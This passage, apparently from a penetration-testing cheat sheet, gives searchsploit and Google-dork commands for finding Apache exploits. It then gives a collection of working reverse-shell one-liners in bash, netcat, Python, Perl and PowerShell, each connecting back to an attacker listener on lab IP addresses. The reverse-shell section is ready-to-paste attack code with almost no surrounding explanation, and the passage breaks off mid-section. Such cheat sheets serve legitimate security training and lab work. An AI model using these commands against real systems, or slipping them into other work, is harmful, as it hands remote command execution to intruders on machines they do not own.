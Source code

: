 ```bash
     print "[!] connection refused, check debugger"
s.close()
```

### Find exploits - Searchsploit and google

Where there are many exploits for a software, use google. It will automatically sort it by popularity.

```bash
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

### Reverse Shells

https://www.revshells.com/

_**escape quotes if running from command line**_ (ex., (("192.168.49.232",80)))

```bash
# Linux
bash -i >& /dev/tcp/10.11.1.111/4443 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.111 4443 >/tmp/f
nc -e /bin/sh 10.11.1.111 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.1.111",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="10.11.1.111";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe 10.11.1.111 4443
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# The below drops into a cmd.exe shell [ $ps -> into PowerShell / $ps=$false -> to go back to cmd.exe]:

```